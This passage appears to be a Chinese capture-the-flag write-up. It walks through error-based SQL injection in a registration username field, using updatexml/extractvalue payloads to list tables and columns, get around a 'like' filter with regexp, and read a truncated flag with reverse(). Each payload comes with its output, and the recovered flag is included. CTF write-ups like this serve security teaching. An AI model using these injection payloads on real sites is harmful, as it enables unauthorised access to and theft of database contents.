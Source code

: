 那么接下来按部就班地挖掘信息就可以了

库名:

```
注册username: a"&&extractvalue(1,concat(0x7e,(database()),0x7e))#
输出: XPATH syntax error: '~web_sqli~' 
```

表名: 

```
注册:b"&&(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where((table_schema)=database())),0x7e),1))#
输出:XPATH syntax error: '~article,flag,users~'
```

列名:

```
注册c"&&(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where((table_name)=('flag'))),0x7e),1))#
输出:XPATH syntax error: '~flag~'
```

数据:

```
d"&&(updatexml(1,concat(0x7e,(select(group_concat(flag))from(flag)),0x7e),1))#
XPATH syntax error: '~RCTF{Good job! But flag not her'
.....
```

重新查一下别的表:

```
注册e"&&(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where((table_name)=('users'))),0x7e),1))#
输出:
XPATH syntax error: '~name,pwd,email,real_flag_1s_her'
!!!!!
```

数据:

```
注册: g"&&(updatexml(1,concat(0x7e,(select(group_concat('real_flag_1s_here'))from(users)),0x7e),1))#

这里会输出一堆垃圾数据,显示不全,为了让其输出真正地flag,需要用一下模糊查询,但这里like被过滤了
使用regexp正则匹配,下面where((real_flag_1s_here)regexp('^flag')) 表示匹配以flag为开头的串

g"&&(updatexml(1,concat(0x7e,(select(group_concat(real_flag_1s_here))from(users)where((real_flag_1s_here)regexp('^flag'))),0x7e),1))#
输出:flag{b0b943b3-0d22-4668-93da-01   

使用reverse逆序再输出一波:
g"&&(updatexml(1,concat(0x7e,reverse((select(group_concat(real_flag_1s_here))from(users)where((real_flag_1s_here)regexp('^flag')))),0x7e),1))#
XPATH syntax error: '~}cbf5fd765010-ad39-8664-22d0-3b'

拼接起来:
flag{b0b943b3-0d22-4668-93da-010567df5fbc} 
```
